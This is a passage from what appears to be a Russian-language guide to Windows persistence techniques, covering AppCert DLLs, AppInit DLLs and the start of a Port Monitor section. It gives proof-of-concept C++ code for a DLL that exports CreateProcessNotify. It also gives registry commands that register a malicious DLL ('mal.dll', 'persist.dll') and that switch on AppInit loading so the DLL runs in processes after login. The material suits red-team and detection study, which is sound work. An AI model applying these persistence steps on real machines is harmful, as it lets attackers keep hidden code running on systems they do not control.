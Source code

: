 ## 23. AppCert
AppCert DLL загружается в любой процесс, который вызывает функции `CreateProcess`, `CreateProcessAsUser`, `CreateProcessWithLoginW`, `CreateProcessWithTokenW` или `WinExec`. 
Библиотека DLL должна быть специально реализована и экспортировать функцию `CreateProcessNotify`.

### Как это работает?(POC)
- Создаем DLL: как я уже говорили ранее, библиотека DLL должна экспортировать функцию с именем `CreateProcessNotify`.
    
        LPCWSTR target = L"C:\\Windows\\System32\\cmd.exe";
        VOID Execution() 
        {
            CreateFileW(L"C:\\OurFileAsAnExample.txt", GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
            return;
        }

        extern "C" __declspec(dllexport) NTSTATUS NTAPI CreateProcessNotify(LPCWSTR lpApplicationName, REASON enReason) 
        {
            NTSTATUS NtStatus = 0x00000000; // STATUS_SUCCESS
            int Result = lstrcmpiW(target, lpApplicationName);
            if (Result) { Execution(); }
            return NtStatus;
        }

- Set registry key: DLL должна быть указана в реестре: https://imgur.com/a/ZdiSZAe

      reg add “HKLM\System\CurrentControlSet\Control\Session Manager\AppCertDlls” /v “persist” /d C:\mal.dll

- Login: после входа в систему DLL будет исполнена: https://imgur.com/a/5ebBkOL

## 24. AppInit
DLL AppInit вставляются в любой загружаемый процесс `user32.dll` и почти все процессы в Windows загружают этот модуль, что делает его хорошим кандидатом на persistence.
- Создаем DLL: Пишем DLL, которая содержит вредоносный код
- Set registry: DLL должна быть установлена в реестре: 

      reg add “HKLM\Software\Microsoft\Windows NT\CurrentVersion\Windows” /v “AppInit_DLLs” /d “C:\users\lab-10-workgroup\desktop\persist.dll” /t REG_SZ

- Включаем AppInit(включаем AppInit, так как по умолчанию он выключен(`https://learn.microsoft.com/ru-ru/windows/win32/dlls/secure-boot-and-appinit-dlls`)): https://imgur.com/a/TbKUlIx

      reg add “HKLM\Software\Microsoft\Windows NT\CurrentVersion\Windows” /v “LoadAppInit_DLLs” /d 0x1 /t REG_DWORD

- Login: после входа в систему DLL будет исполнена: https://imgur.com/a/JGOzW0n

## 25. Port Monitor
Port Monitor DLLs загружаются при загрузке через spooler service, которая является printer service. Мы можем добавить DLL двумя способами:
